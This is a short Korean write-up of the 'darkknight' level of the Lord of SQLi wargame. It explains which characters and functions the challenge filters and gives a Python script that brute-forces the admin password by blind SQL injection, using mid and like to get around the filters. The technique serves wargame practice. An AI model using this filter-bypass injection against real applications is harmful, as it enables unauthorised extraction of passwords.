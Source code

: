 # darkknight

* pw에서 '(싱글 쿼터)를 차단하고 있다.
* no에서 '(싱글 쿼터), substr, ascii, = 차단하고 있다.   
</br>

substr 대신 mid를 사용할 수 있다.   
</br>

```
import requests

headers = {'Cookie' : 'PHPSESSID=kova1t98feg40kpfqdboutfq2c'}
page = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?'

string = '0123456789abcdefghijklmnopqrstuvwxyz'

pw = ''
for i in range(1,9):
	for j in string:
		value = 'no=1 || id like "admin" %26%26 mid(pw,{},1) like "{}"#'.format(i,j)
		url = page+value
		response = requests.get(url, headers=headers)
		print j
		if "<h2>Hello admin</h2>" in response.text:
			pw += j
			print '[+] find : ' + pw
			break

print '[*] Password : '+ pw
```

